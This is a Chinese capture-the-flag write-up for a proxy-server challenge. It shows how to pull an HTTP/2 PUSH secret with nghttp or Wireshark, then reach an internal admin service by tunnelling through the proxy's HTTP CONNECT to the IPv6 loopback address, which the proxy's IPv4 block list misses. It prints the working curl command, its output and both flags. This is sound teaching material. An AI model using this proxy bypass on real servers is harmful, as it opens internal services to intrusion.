 # 超安全的代理服务器

本地源代码在 (src)[./src/smart_proxy] 文件夹下。

## 考察内容

本题设计指出是为了考察 HTTP 协议的一系列应用。更具体的来说，本题需要各位选手们在答题的过程中了解如下一些内容：

1. HTTP2 的新特性 —— PUSH
2. HTTP CONNECT 可以用于隧道代理
3. 代理服务器的本地代理漏洞
4. IPv6 协议

当然，为了避免不了解相关内容的同学做题时卡克，小 C 在设计本题的时候也希望尽可能充分的给足暗示，希望能够让大家稍微了解一下。

## 解法
使用大部分比较新浏览器打开本题的时候，都会提示 “Notice: 我们已经向您 推送（PUSH） 了最新的 Secret ，但是你可能无法直接看到它。”，同时在帮助中心中也明确提示了“HTTP2”。只要将这两个关键词在谷歌中搜索，就可以找到大量关于 HTTP2 新特性 PUSH 的相关资料。 HTTP2 的更多资料参见 [RFC 7540](https://tools.ietf.org/html/rfc7540)。

### Step 1: 获取 Secret

简单来说，HTTP2 PUSH 特性可以使得服务器更加主动地向浏览器推送资源，使得内容加载更加灵活和快速，但是 HTTP2 PUSH 的内容通常不会直接出现在浏览器的“开发人员工具”中，因此需要更加底层的调试和查看手段。我们在这里提供了两种查看的方法：

### Method 1. 使用 Wireshark 抓包分析
一种很直观的查看方式是直接抓取原始流量进行分析，但是困难在于 h2 内容 大多经过 TLS 协议加密，因此直接查看只能看到加密后的内容。解决方法是提取浏览器中的 TLS 会话秘钥，就可以进行抓包和解密了。具体细节参见：[这一篇文章](https://cloud.tencent.com/developer/article/1416948)

我们使用类似下面的命令可以启动浏览器并导出 TLS 秘钥，并使用 Wireshark 可以抓取到加密的 HTTP2 流量，我们观察到有 Promise Push 的内容，具体是一个 URL。我们访问这个 URL 即可得到**代理凭证 secret** 和第一个**flag**
![pic/pic_1.png](pic/pic_1.png)

### Method 2. 使用 nghttp2 工具调试 HTTP2
还有另一个方法是使用命令行工具 nghttp2 来调试获取 push 的内容。

```
$ nghttp -sny https://146.56.228.227/
***** Statistics *****

Request timing:
  responseEnd: the  time  when  last  byte of  response  was  received
               relative to connectEnd
 requestStart: the time  just before  first byte  of request  was sent
               relative  to connectEnd.   If  '*' is  shown, this  was
               pushed by server.
      process: responseEnd - requestStart
         code: HTTP status code
         size: number  of  bytes  received as  response  body  without
               inflation.
          URI: request URI

see http://www.w3.org/TR/resource-timing/#processing-model

sorted by 'complete'

id  responseEnd requestStart  process code size request path
  2    +11.07ms *   +11.03ms     48us  200  571 /dab44e3a-6b65-4bda-a0f4-3bc1531b8a1c
 13    +11.09ms       +270us  10.82ms  200 1015 /
```

最终 flag1 相关的网页部分源代码如下：
```
<p style="color:blue;">Notice: secret: 9a33678d37 ! Please use this secret to access our proxy.(flag1: flag{d0_n0t_push_me} )</p>
```

### Step 2. 入侵控制中心
此时我们已经可以访问我们的代理服务器了。从原理上说，我们的代理服务器使用的是 HTTP CONNECT 代理，其具体原理参考 [RFC 7231](https://tools.ietf.org/html/rfc7231#section-4.3.6)。

有了代理服务器，我们需要访问什么内容呢？其实从题目名字“入侵管理中心”就已经告诉了我们做题的方向了。通过点击“管理中心”这个非常可疑的链接 http://127.0.0.1:8080。这告诉我们需要访问服务器内网 8080 端口上的 http 服务。

其实大部分代理协议（甚至包括早期的“影子袜子”软件等）都可能存在如下漏洞：代理服务器没有过滤一系列私有 IP 段，导致用户可以访问一些本机上（或者内网中）并不希望对外可访问的服务。但是我们的访问控制列表控制的还是比较严密：

* 全球单播地址
* 10.0.0.0/8
* 127.0.0.0/8
* 172.16.0.0/12
* 192.168.0.0/16

其实 IPv4 的单播地址基本都被过滤干净了，可能可以想到可以使用 IPv6 的地址来试试。IPv6 协议中，本地地址通常是 `[::1]` 这样一个地址，因此可以来试试。在连接建立成功后，提示还需要 Referer，最终加上 Referer ，即可构造 exp 并获取 **flag2**。下面给出最终执行的命令以及关键输出。

```
$ curl http://\[::1\]:8080 -p -x https://146.56.228.227:443 -H "referer: https://146.56.228.227" -vvnn --proxy-insecure --proxy-header "Secret: da0d8b646b"

> CONNECT [::1]:8080 HTTP/1.1
> Host: [::1]:8080
> User-Agent: curl/7.64.1
> Proxy-Connection: Keep-Alive
> Secret: da0d8b646b
...
...
...
< HTTP/1.1 200 OK
< Content-Length: 0
...
...
...
> GET / HTTP/1.1
> Host: [::1]:8080
> User-Agent: curl/7.64.1
> Accept: */*
> referer: https://146.56.228.227
...
...
...
< HTTP/1.1 200 OK
< Date: Thu, 05 Nov 2020 11:54:21 GMT
< Content-Length: 32
< Content-Type: text/plain; charset=utf-8
<
* Connection #0 to host 146.56.228.227 left intact
flag2: flag{c0me_1n_t4_my_h0use}
...
```

## 一些提醒
1. IPv6 规则配置不当其实应当引起重视。小 C 自己曾经见到某服务器配置了 200 余条 IPv4 iptables 规则，却放行了全部 IPv6 流量。功亏一篑~
2. 一些代理相关软件至今都存在类似本地代理漏洞的风险，下面是“某白话文教程”中的代码片段原文：
```
      {
        "type": "field",
        "outboundTag": "direct",
        "ip": [
          "geoip:cn",
          "geoip:private"
        ]
      }
```
3. 为了防止一些浏览器能够通过调试控制台得到 secret，小 C 曾经测试了 IE、旧 Edge、新 Edge、Chrome、Firefox、Safari 等主流桌面级浏览器。如果有同学知道有什么浏览器可以直接调试 http2的，可以告诉小 C。**（黑曜石浏览器除外）**
